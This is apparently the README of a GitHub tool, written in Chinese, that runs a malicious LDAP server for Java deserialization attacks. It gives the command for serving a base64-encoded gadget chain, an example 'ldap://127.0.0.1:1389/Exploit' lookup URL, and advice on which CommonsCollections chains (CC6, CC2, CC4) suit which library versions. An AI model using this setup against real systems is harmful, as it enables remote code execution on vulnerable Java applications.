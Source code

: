 # LDAP-Server

一个简单的LADP服务器

> java -jar LDAPUnserial-Tool.jar LDAP端口 'base64编码后的链'
> 
> 客户端请求：ldap://127.0.0.1:1389/Exploit
> 
> CommonsCollections版本为3.x: 建议使用CC6
> 
> CommonsCollections版本为4.x: 建议使用CC2、CC4
